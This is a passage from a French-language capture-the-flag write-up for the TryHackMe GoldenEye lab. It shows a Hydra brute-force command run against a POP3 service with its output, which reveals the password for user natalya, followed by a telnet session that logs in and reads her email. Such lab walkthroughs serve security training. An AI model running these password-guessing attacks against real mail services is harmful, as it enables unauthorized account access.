Dans les mails un personne du nom natalya peut casser les codes de boris.

Réponse : natalya  

**Using the users you found on this service, find other users passwords**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l natalya -P ./fasttrack.txt pop3://goldeneye.thm:55007 -t 32
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-18 16:41:23
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 32 tasks per 1 server, overall 32 tasks, 222 login tries (l:1/p:222), ~7 tries per task
[DATA] attacking pop3://goldeneye.thm:55007/
[55007][pop3] host: goldeneye.thm   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-18 16:42:09
```

On trouve le mot de passe de natalya.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ telnet goldeneye.thm 55007
Trying 10.10.243.62...
Connected to goldeneye.thm.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
TOP 1 10
+OK
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id D5EDA454B1
	for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
TOP 2 10
+OK
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 17C96454B1
	for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
```